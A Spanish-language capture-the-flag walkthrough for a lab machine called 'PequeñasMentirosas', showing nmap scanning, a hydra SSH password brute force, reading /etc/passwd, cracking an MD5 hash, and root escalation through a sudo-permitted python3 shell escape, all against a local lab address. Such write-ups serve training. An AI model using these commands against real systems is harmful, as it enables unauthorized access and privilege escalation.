 Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil


Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

Usamos hydra.

hydra -l "a" -P /home/ankb/Documents/rockyou.txt ssh://172.17.0.2 

Encontramos la contrasena para el usuario y enctramos por ssh.

ssh a@172.17.0.2

secret

Si vemos los usuarios que existen, encontramos spencer.

cat /etc/passwd | grep "sh$"

Hacemos una busqueda de archivos .txt de la siguiente manera find / -name *.txt 2>/dev/null

ls | xargs cat

cat hash_spencer.txt

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

Cambiamos al usuario spencer

su spencer
password1

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami

